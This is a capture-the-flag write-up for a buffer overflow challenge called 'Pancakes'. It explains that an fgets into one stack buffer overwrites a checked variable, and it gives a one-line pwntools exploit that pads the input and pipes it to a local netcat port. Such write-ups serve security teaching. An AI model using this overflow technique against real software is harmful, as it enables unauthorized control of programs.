

# Pancakes

## description

Attack this binary to get the flag!

## dev notes

This is a basic buffer overflow challenge.
Set the variable to the correct value to get the flag.

## solution

Manual inspection in Ghidra quickly shows that pancake has a buffer overflow of `local_14` due to the `fgets` into
`local_58`.



Simply fill the buffer that the `fgets` writes to with padding and write the value straight into the checked one!

```bash
python -c "from pwn import *;import sys; sys.stdout.buffer.write(b'a'*68 + p32(0x08406688))" | nc -q1 localhost 4444
```

(Note the use of `p32` from pwntools to get the correct endianness)